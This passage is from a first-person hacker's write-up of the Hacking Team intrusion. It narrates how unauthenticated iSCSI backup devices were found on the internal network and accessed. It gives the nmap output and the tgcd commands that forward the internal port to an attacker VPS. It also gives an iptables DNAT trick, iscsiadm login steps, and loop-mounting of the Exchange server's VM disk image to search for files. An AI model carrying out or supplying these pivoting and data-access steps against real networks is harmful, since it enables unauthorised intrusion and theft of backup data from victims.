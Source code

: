 
--[ 9 - Crossed Cables ]--------------------------------------------------------

Although it was fun to listen to recordings and see webcam images of Hacking
Team developing their malware, it wasn't very useful. Their insecure backups
were the vulnerability that opened their doors. According to their
documentation [1], their iSCSI devices were supposed to be on a separate
network, but nmap found a few in their subnetwork 192.168.1.200/24:

Nmap scan report for ht-synology.hackingteam.local (192.168.200.66)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication required

Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

iSCSI needs a kernel module, and it would've been difficult to compile it for
the embedded system. I forwarded the port so that I could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

Now iSCSI finds the name iqn.2000-01.com.synology but has problems mounting it
because it thinks its IP is 192.168.200.72 instead of 127.0.0.1

The way I solved it was:
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

And now, after:
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...the device file appears! We mount it:
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find backups of various virtual machines. The Exchange server seemed like
the most interesting. It was too big too download, but it was possible to
mount it remotely to look for interesting files:
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT
